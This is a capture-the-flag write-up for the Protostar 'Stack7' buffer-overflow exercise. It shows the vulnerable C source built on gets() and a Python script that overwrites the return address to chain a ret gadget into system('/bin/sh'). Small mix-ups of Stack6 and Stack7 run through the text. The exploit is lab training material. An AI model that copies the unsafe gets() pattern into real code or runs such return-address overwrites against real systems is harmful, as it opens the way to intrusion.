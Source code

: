 # Stack7

## Description 
Stack6 introduces return to .text to gain code execution.
The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
# Solution 
On looking the source code we can see that it is very similar to the previous challenge but this time we cannot directly perform ret2libc attack because it is not allowing to open shell at any address starting with 0xb. So we can do something similar to return oriented programming. We can look out for the address of the ret command.
![screenshot](screenshot1.jpg)
Then we acan call it in the same place to pop it out from the stack to run the shell. This can be done through the following commands and script. 
```bash
gdb stack7
disassembly getpath
(python /tmp/s/script.py ; cat) | /opt/protostar/bin/stack6
```
### Script.py
```python
import struct

padding = '1'*80
ret = struct.pack("I",0x08048544)
sys = struct.pack("I",0xb7ecffb0)
trap = "aaaa"
bin = struct.pack("I",0xb7fb63bf)

print(padding+ret+sys+trap+bin)
```
![screenshot](screenshot2.jpg)